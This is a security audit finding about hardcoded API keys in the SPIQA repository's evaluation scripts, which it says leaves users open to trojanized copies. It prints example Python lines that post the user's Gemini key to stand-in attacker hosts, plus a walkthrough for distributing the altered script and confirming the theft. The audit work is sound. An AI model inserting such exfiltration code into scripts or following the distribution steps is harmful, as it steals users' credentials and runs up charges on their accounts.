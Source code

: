 ### Vulnerability List:

- Vulnerability Name: API Key Exfiltration via Malicious Evaluation Scripts
- Description:
    - An attacker can create a modified version of the evaluation scripts provided in the repository.
    - This modified script would contain malicious code designed to steal API keys.
    - The attacker distributes this modified script through channels accessible to users of the SPIQA repository (e.g., a fake repository, a forum, or compromised download links).
    - A user, intending to evaluate models as per the repository's documentation, downloads and uses the malicious script.
    - The user follows the instructions in the repository's README.md, which includes configuring API keys directly within the evaluation scripts (e.g., by modifying the `api_key=""` value in the scripts).
    - When the user executes the modified script, the malicious code is triggered.
    - This malicious code exfiltrates the API key that the user has configured in the script.
    - The exfiltrated API key is sent to a server controlled by the attacker.
- Impact:
    - High.
    - Successful exfiltration of API keys grants the attacker unauthorized access to the victim's accounts on services like Google Gemini and OpenAI.
    - This access can lead to financial charges for API usage billed to the victim's account.
    - The attacker could potentially use the stolen API keys for malicious purposes, including further attacks or data breaches using the compromised API access.
- Vulnerability Rank: High
- Currently Implemented Mitigations:
    - None. The project currently instructs users to directly embed API keys in the scripts without any security warnings or alternative secure methods.
- Missing Mitigations:
    - API Key should not be configured directly in the scripts.
    - Implement secure API key management using environment variables or configuration files.
    - Provide clear security guidelines in the documentation, warning users about the risks of directly embedding API keys in scripts and advising against downloading scripts from untrusted sources.
    - Implement integrity checks (e.g., checksums, digital signatures) for the evaluation scripts to ensure users are using unmodified, official versions.
- Preconditions:
    - The attacker needs to be able to distribute the modified scripts to potential users.
    - Users must follow the repository's instructions and configure their API keys directly within the downloaded scripts.
    - Users must execute the modified scripts.
- Source Code Analysis:
    - Files like `/code/evals/test-c/closed_models/gemini_cot_qa_test-c_evaluation_image+caption.py` and `/code/evals/test-c/closed_models/gpt4v_cot_qa_test-c_evaluation_image+caption.py` (and many others in `/code/evals`) contain lines like:
        - `genai.configure(api_key="")` (in Gemini scripts)
        - `api_key = ""` (in GPT-4V scripts)
    - These lines are intended for users to directly input their API keys.
    - For example, in `gemini_cot_qa_test-c_evaluation_image+caption.py`:
        ```python
        genai.configure(api_key="")

        # ... rest of the script ...

        if __name__ == '__main__':

            infer_gemini(qasper_data, model)
            print(len(glob.glob(args.response_root + '/*.json')))
        ```
    - An attacker can modify these scripts to add malicious code after the `genai.configure(api_key="")` line (or `api_key = ""` line in GPT-4V scripts) to exfiltrate the API key.
    - For instance, a malicious modification in `gemini_cot_qa_test-c_evaluation_image+caption.py` could be:
        ```python
        import google.generativeai as genai
        import requests  # Import the requests library

        genai.configure(api_key="")
        api_key_to_exfiltrate = genai.api_key  # Get the configured API key
        requests.post("https://attacker-server.com/api/exfiltrate", data={'api_key': api_key_to_exfiltrate}) # Send API key to attacker's server

        # ... rest of the original script ...
        ```
    - When the user runs this modified script after setting their API key, the `requests.post` line will send the API key to `attacker-server.com`.

- Security Test Case:
    1. **Attacker Setup**:
        - Set up a simple HTTP server (e.g., using Python's `http.server` or `ngrok` for public accessibility) to receive exfiltrated data. Let's say the attacker uses `ngrok` to get a public URL: `https://attacker-server.ngrok.io`.
        - Create a modified version of `/code/evals/test-a/closed_models/gemini_qa_test-a_evaluation_image+caption.py`.
        - In the modified script, add the following lines after `genai.configure(api_key="")`:
            ```python
            import requests
            api_key_to_exfiltrate = genai.api_key
            requests.post("https://attacker-server.ngrok.io/exfiltrate", data={'api_key': api_key_to_exfiltrate})
            ```
    2. **Attacker Distribution**:
        - Upload the modified `gemini_qa_test-a_evaluation_image+caption.py` to a public GitHub repository named `malicious-spiqa-evals`.
        - Create a link to download this malicious script and share it on a forum where SPIQA users might be present, with instructions mimicking the original repository's README.
    3. **Victim Action**:
        - A user, intending to evaluate Gemini models, finds the attacker's link and, mistaking it for the official repository or a helpful resource, downloads `gemini_qa_test-a_evaluation_image+caption.py` from the attacker's repository.
        - The user follows the instructions in the `README.md` of the official SPIQA repository, which directs them to edit the evaluation script and insert their Gemini API key.
        - The user edits the downloaded `gemini_qa_test-a_evaluation_image+caption.py` and replaces `genai.configure(api_key="")` with `genai.configure(api_key="YOUR_ACTUAL_GEMINI_API_KEY")`.
        - The user executes the modified script: `python gemini_qa_test-a_evaluation_image+caption.py --response_root ./responses --image_resolution -1 --model_id gemini-1.5-pro`.
    4. **API Key Exfiltration**:
        - When the script runs, it configures the Gemini API client with the user's API key.
        - The malicious code `requests.post("https://attacker-server.ngrok.io/exfiltrate", data={'api_key': api_key_to_exfiltrate})` executes.
        - This sends a POST request to the attacker's `ngrok` URL (`https://attacker-server.ngrok.io/exfiltrate`) with the user's API key in the `data` payload.
    5. **Attacker Verification**:
        - The attacker checks their HTTP server logs or the `ngrok` interface and verifies that they have received a POST request.
        - The request body contains the `api_key` parameter, which holds the victim's Gemini API key.
        - The attacker has successfully exfiltrated the victim's API key.